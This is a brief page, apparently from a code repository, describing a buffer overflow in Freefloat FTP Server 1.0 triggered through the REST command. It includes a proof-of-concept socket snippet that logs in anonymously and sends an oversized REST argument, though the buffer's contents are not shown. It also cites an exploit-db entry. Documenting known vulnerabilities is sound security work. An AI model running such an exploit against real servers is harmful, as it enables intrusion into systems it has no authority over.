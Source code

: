 # Buffer Overflow in Freefloat FTP Server 1.0 -'REST'

POC ==>
s.send("USER anonymous\r\n");
s.recv(1024);
s.send("PASS anonymous\r\n");
s.recv(1024);
s.send("REST " + buffer + "\r\n");
s.send("QUIT\r\n");

Vulnerable dll : ntdll.dll
ref : https://www.exploit-db.com/exploits/17546
Download vulnerable application from exploit-db page
